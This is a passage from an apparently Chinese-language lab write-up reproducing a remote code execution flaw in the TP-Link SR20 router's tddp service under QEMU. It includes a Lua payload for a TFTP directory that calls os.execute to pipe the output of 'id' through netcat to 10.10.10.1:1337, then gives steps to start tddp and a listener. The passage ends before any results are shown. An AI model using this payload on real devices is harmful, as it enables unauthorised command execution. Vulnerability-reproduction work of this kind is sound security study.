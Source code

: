 ```python
mkdir /tftpboot
chmod 777 /tftpboot/
cd /tftpboot
touch payload
```

payload写入如下内容

```python
function config_test(config)
  os.execute("id | nc 10.10.10.1 1337")
end
```



3、qemu虚拟机中启动tddp程序

```
qemu-arm -L . ./usr/bin/tddp
```

执行这个没反应，直接./tddp也没反应。后来发现，是第一个点需要变成./ 就能成功。

 

进入别人发我的H*-TP-Link_SR20文件夹，执行以下任意一条即可启动tddp。

```python
./qemu-arm-static -L ./ ./usr/bin/tddp
qemu-arm -L ./ ./usr/bin/tddp
```



但是此时是在qemu中的，所以直接./即可执行

![fig9-tddp](/TPlinkSR20_rce/fig9-tddp.jpg)



4、宿主NC监听，且宿主执行POC

结果如下：
